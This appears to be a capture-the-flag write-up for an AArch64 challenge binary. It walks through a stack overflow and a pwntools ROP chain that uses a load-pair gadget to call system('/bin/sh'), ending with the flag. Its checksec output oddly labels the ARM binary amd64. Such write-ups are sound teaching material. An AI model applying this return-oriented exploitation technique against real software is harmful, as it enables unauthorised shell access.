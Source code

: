 # AARCH64:Solution

Even if we hadn't been told this was an arm binary, it was easy to figure it out.
```
file chal.bin 
chal.bin: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=aae8ada57f8c7c8ca11580f143633b180affbdbd, for GNU/Linux 3.7.0, not stripped
```

The binary is compiled with NX and Partial RELRO.
```
checksec chal.bin  
[*] '/root/workspace/vuln/aarch64/chal/chal.bin'
    Arch:     amd64-64-little                                                  
    RELRO:    Partial RELRO                                                    
    Stack:    No canary found                                                 
    NX:       NX enabled                                                       
    PIE:      No PIE (0x400000)
```

This is the output from connecting the the remote server
```
OWMMMMMMMMMMMMKkKMMMMMMMMMMMMMMMW00WMXkKWMMMMMM0kNMMMMMMMMMMMMMNk0WMMMMMKOXMMMMM
,OWMMMMMMMMMWW0;cXMMMMMMMMMMMMMWO;oWW0::xKMMMMWx,dNMMMMMMMMMMWNKc;0MMMMM0;lNMMMM
 ,OWMMMMMMMXk00,.cXMMMMMMMMMMMWO,.dKkx;..:KMMMMx..dNMMMMMMMMW0oxc.:KMMMM0,.oNMMM
  ;0WMMMMMNo,k0, .lXMMMMMMMMMM0;.:kc;d;  .cKMMMx. .xWMMMMMMM0;'dc .:KMMM0, .oNMM
   ;0WMMMNo.'O0,  .lNMMMMMMMM0;.;kl.;x;   .cXMMx.  .xWMMMMMK:.'dc  .cXMM0,  .dNM
 ...:KMMNd..xN0, ',;kWMMMMMMK:.;kl.'kK;  .'.cXWx..'..xWMMMK:. 'dc .'.cXM0,....xW
 ;d,.:KNx..oKXk'.:OOKWMMMMMK:.,ko..oXK;  ;o'.lXx..lc.'kWMK:.  'dc ;o,.lXO,.ol..x
 ;Kx..cx' .,l:.. ...:0MMMMK:.,kx. ..ck;  ... .lo. ..  'kKc... 'dc ... .ox,.xK:..
 ;0d..dO; .:kkc. ,odxKWMMKc.'OWO, .:kO;  'loooxl..;ooood:..'. 'dc .. 'cxx,.x0;.;
 ,l..dNW0;.;0W0, lNMMMMMXc..l0K0x'.cKK; .cNMMMWx..kMMMXc.'xXl.'dc ,:..dNO,.c:.;0
 ...dNMMWO,.:K0, lNMMMMNl......'lo'.cO:..cNMMMMk..kMMXl.'xWWd.'xc.:0d..xk,...;0W
  .oNMMMMWO,.k0, lNMMMMN0OOOOOOO0Xk''k0kkKWMMMMXOOXMMN0kKWMMXO0XKk0WN0OKO,  ;0WM
 .oNMMMMMMWk:k0, lNMMMMMMMMMMMMMMMWx:OMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM0' ;0WMM
.oNMMMMMMMMWKXNo.lNMMMMMMMMMMMMMMMMNKXMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM0,,0WMMM
oNMMMMMMMMMMMMMNodNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM0oOWMMMM
XMMMMMMMMMMMMMMMK0NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNXWMMMMM
-------------------------------------------------------------------------/bin/sh
                              It's a state of emergency
                   Don't you know that you're in a state of emergency?
                            Armageddon it, armageddon it
                            Armageddon It - Def Leppard
--------------------------------------------------------------------------------
                          Wed Feb 15 05:31:47 UTC 2023
--------------------------------------------------------------------------------

PwnMe >>> 
```


To find the overflow, I took the easy way and spammed "A"s until the buffer was overflowed. 

To get a shell we need system and /bin/sh. I could find these manually with rabin2. Ex:
```
rabin2 -zz chal.bin | grep bin
34  0x00000fb8 0x00400fb8 81  82   .rodata   ascii   -------------------------------------------------------------------------/bin/sh\n
```

Pwntools is super cool though and since /bin/sh and system are in the binary I can just find them by their name with pwntools and less manual effort.
```
chain += p64(next(e.search(b'/bin/sh')))
chain += p64(e.sym['system']) 
```

This function can be used to populate the registers we need for the exploit, found in binja ([weird machine](https://en.wikipedia.org/wiki/Weird_machine)).
```
sub_31337:
00400854  ldp     x0, x1, [sp], #0x10 {arg1} {arg2}
00400858  ldp     x29, x30, [sp], #0x10 {arg3} {arg_18}
0040085c  ret     
```

We only have one argument to get into the gadget: /bin/sh into the first argument (x0) and fill x1 with 0. Then we have the Frame Pointer and Link Register.
We don't need anything for the frame pointer so we can set that to 0, then we use the link register, which usually has the return address to call system.
```
chain += p64(0x400854)                          # weird machine gadget -> x0, x1, x29, x30

chain += p64(next(e.search(b'/bin/sh')))        # x0 ->find /bin/sh
chain += p64(0)                                 # x1
chain += p64(0)                                 # x29
chain += p64(e.sym['system'])                   # x30 -> call system
```

Don't forget to put the chain in the sendline and spend an hour troubleshooting the chain before you realize like me, then send the chain and get the flag!
```
flag{U_kn0w_you_G0t_1t}
```

Resources:
* Class slides
* Chandler
* https://developer.arm.com/documentation/dui0801/a/Overview-of-AArch64-state/Link-registers
* https://en.wikipedia.org/wiki/Weird_machine
